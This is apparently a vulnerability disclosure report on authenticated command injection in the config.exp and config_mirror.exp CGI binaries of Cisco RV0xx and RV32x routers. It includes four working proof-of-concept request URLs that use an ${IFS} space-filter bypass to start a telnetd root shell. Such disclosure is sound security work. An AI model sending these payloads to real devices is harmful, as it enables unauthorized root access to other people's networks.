









# Information

**Vendor of the products:**    Cisco

**Vendor's website:**    [https://www.cisco.com](https://www.cisco.com "https://www.cisco.com")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>)

**Affected products:**

Cisco RV016 Multi-WAN VPN Router

Cisco RV042 Dual WAN VPN Router

Cisco RV042G Dual Gigabit WAN VPN Router

Cisco RV082 Dual WAN VPN Router

Cisco RV320 Dual Gigabit WAN VPN Router

Cisco RV325 Dual Gigabit WAN VPN Router

**Affected firmware version:**

RV0xx Series Routers firmware : 4.2.3.14 (the latest release version)

RV32x Series Routers firmware : 1.5.1.13 (the latest release version)

**Firmware download address:** 

[RV0xx Series Routers firmware](https://software.cisco.com/download/home/282414011/type/282465789/release/4.2.3.14 "https://software.cisco.com/download/home/282414011/type/282465789/release/4.2.3.14")

[RV32x Series Routers firmware](https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13 "https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13")

# Overview

`Cisco RV0xx and RV32x Series VPN Routers` was detected with `command injection vulnerabilities`. These vulnerabilities are caused by lax verification of user input. An authenticated attacker can send crafted requests to the web-based management interface. Successful exploits could allow the attacker to execute arbitrary commands on remote devices.

# Vulnerability details

The vulnerabilities were detected in the **`/usr/local/EasyAccess/www/cgi-bin/config.exp`** binary. In addition, these vulnerabilities also exist in the similar binary file **`/usr/local/EasyAccess/www/cgi-bin/config_mirror.exp`**.

In the `main` function. We can see that when the string `cert_request&` is included in our request, it will enter the `exportconfig_CertRequest` function.

In the `exportconfig_CertRequest` function. When there is number `1` between the first two `&`, everything between the second and the third `&` or the third and the last `&` is concatenated unchecked into `acStack1128` and executed as an argument to the `system` function.

Therefore, we can select `1` and write the malicious command between the second and the third `&` or the third and the last `&` and execute it.

Similarly, in the `exportconfig_CertRequest` function. When there is number `2`(both firmwares) or `3` (only `RV0xx` Series Routers firmware) between the first two `&`, everything between the second and the third `&` or the third and the fourth `&` or after the fourth `&` is concatenated unchecked into `acStack1128` and executed as an argument to the `system` function.

Therefore, we also can select `2` or `3` and write the malicious command between the second and the third `&` or the third and the fourth `&` or after the fourth `&` and execute it.

# Poc

However, in the actual test, we found that these devices filtered spaces, so we can't inject some commands directly. But it is possible to use `${IFS}` instead of space to bypass the filtering. Therefore, we can do this by injecting the `/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh` command.

## Case 1

Send arbitrary data to the URL `https://192.168.1.1/cgi-bin/config.exp?cert_request&1&abc&;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;&123` by the `POST` request.

## Case 2

Send arbitrary data to the URL `https://192.168.1.1/cgi-bin/config_mirror.exp?cert_request&1&abc&;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;&123` by the `POST` request.

## Case 3

Send arbitrary data to the URL `https://192.168.1.1/cgi-bin/config.exp?cert_request&2&abc&123&;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;` by the `POST` request.

## Case 4

Send arbitrary data to the URL `https://192.168.1.1/cgi-bin/config_mirror.exp?cert_request&2&abc&123&;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;` by the `POST` request.

# Attack Demo

Before the attack, scan the ports of the router to ensure that port `23` of the `telnet` service is not enabled.

Follow the POC above to make the request.

**Case 1 : **

**Case 3 : **

After the attack is completed, we performed a port scan again and found that the `telnet` service has been successfully started. And then, we successfully logged into the device remotely and got the `root shell` of the device.

